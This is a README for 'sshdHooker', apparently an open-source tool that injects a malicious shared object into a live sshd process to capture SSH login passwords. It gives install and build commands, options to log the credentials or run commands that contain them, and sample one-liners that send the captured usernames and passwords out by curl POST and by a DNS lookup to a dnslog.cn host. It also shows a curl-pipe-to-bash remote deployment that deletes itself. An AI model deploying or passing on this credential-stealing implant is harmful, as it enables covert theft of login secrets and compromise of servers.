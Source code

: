 # what's this?

SSHD injector, and then you can record passwords or do other operations.

Need to close selinux

English | [中文文档](readme_cn.md)

# how to use

## auto installer
anto installer，Only temporarily supports x64/aarch64

Run:
```
bash install.sh or bash install_aarch64.sh
```

Login with ssh password after running，The password record address is /tmp/.password.txt. default evil so path is /tmp/hello.so，default injector path is/tmp/.i


Other parameters:
```
    -e   custom so file path，default is /tmp/hello.so
    -o   custom injector path，default is /tmp/.i.
    -m   change mode,defulat is 0, mode is 0 is to output to the file，output path is /tmp/.password.txt ，mode is 1 is to command execution mode
    -p   change payload，defsult is /tmp/.password.txt,if mode is 1，then use snsprintf to format the command and execute,Make sure the command contains both %s for format username and password
    -d   anto delete,If the value is anyone, any password is captured and deleted.Otherwise, it will be deleted after matching the entered username.
    -l   Specify the libc path. The default addressing is to find libc-xxxx.so and libc.so.x, but it does not rule out that there will be other strange libc names, so the manual specification function is added. For details, please check /proc/pid Find the libc name in /maps
```
## samples

https send password
```
bash install.sh -p "curl -X POST -d 'username=%s\&password=%s' http://127.0.0.1" -m 1
```

dns send password and self-delete (Please make sure that your command is not blocked, because the actual use of this program is that the system is an online program, if the command is blocked, it will cause the ssh login program to be blocked)
```
bash install.sh -p 'ping `echo %s-%s|xxd -ps`.k9lovy.dnslog.cn -c 1' -m 1 -d anyone
```

Fast remote automatic deployment and self-delete for If any user login succeeds
```
curl -L https://github.com/9bie/sshdHooker/releases/download/1.0.2/sshdHooker.sh | bash -s -- -d anyone
```

## debug

use
```

gcc -shared inject_got.c -ldl -fPIC -o test2.so -std=c99

mv test2.so /tmp/hello.so

gcc sshdHooker.c shellcode.s -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```


# todo

 - add x86/arm support
 - bypass SELINUX